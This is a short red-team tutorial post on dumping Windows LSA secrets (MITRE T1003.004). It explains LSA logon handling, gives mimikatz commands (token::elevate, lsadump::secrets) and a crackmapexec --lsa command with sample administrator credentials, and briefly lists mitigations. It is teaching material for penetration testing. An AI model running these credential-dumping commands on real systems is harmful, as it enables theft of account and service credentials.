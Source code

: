 ```yaml
---
title:  LSA Secrets 
date: 2022-04-01 05:49:33 +0800
categories: [Red Teaming, Credential Access]
tags: [redteam,Credential Access, windows, mitre, lsa, credentials]     # TAG names should always be lowercase
---
```


# MITRE

- ID : `T1003.004`
- Tactic : `Credential Access`
- Platforms: `Windows`

# LSA Secrets

***LSA*** Stands for `Local Security Authority` is a protected system process that authenticates and logs on users to the local computer. When a user attempts to log on locally to the system by entering a username and password in the logon dialog box, the logon process invokes the LSA, which passes the user’s credentials to the Security Accounts Manager (SAM), which manages the account information stored in the local SAM database.The SAM compares the user’s credentials with the account information in the SAM database to determine whether the user is authorized to access the system. If it finds the user account information in the SAM database, the SAM authenticates the user by creating a logon session and returning the security identifier (SID) of the user and the SIDs of global groups of which the user is a member to the LSA.The LSA then grants the user an access token that contains the user’s individual and group SIDs and their rights, these enable the user to access resources for which he or she has permissions. Adversaries with SYSTEM access to a host may attempt to access Local Security Authority (LSA) secrets, which can contain a variety of different credential materials, such as credentials for service accounts.

# Exploitations

## Mimikatz

We can dump lsa secrets using `mimikatz`. To do that, we need to download or transfer mimikatz to our target system(windows), then execute it `./mimikatz.exe`. After executing mimikatz, we will elevate our privilege to `nt authority` by executing `token::elevate`. With our privilege elevated, we can dump lsa secrets by executing `lsadump::secrets`.

![lsa](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/oscredlsa2.png)

![lsa](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/oscredlsa2c.png)

## CrackMapExec

We can dump lsa secrets with `crackmapexec` by executing the below command.

```bash
crackmapexec smb 10.42.0.10 -u Administrator -p Password@123 --lsa

```

![lsa](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/oscredlsa1.png)

# Mitigations

- Ensure that local administrator accounts have complex, unique passwords across all systems on the network.
- Limit credential overlap across accounts and systems by training users and administrators not to use the same password for multiple accounts. 

# References

- [https://attack.mitre.org/techniques/T1003/004/](https://attack.mitre.org/techniques/T1003/004/)
- [https://docs.microsoft.com/en-us/windows/win32/secauthn/lsa-authentication](https://docs.microsoft.com/en-us/windows/win32/secauthn/lsa-authentication)
- [https://networkencyclopedia.com/local-security-authority-lsa/](https://networkencyclopedia.com/local-security-authority-lsa/)
- [https://book.hacktricks.xyz/windows-hardening/stealing-credentials](https://book.hacktricks.xyz/windows-hardening/stealing-credentials)
